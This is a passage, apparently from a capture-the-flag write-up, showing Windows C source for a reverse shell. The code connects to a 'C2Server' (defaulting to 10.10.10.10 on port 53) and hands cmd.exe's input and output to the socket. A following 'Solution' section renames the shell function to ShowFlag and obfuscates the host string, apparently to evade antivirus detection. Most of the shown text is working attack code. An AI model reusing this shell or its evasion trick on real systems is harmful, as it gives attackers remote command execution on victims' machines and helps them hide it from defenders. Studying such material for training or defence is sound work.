 ```c
        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

### Solution
---
Changes in the `main` function:

```C
int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        ShowFlag(argv[1], port);
    }
    else {
        char number[] = "10+.23+.+145.+8+7";
        int room = 3232;
        ShowFlag(number, room);
    }
    return 0;
} 
```
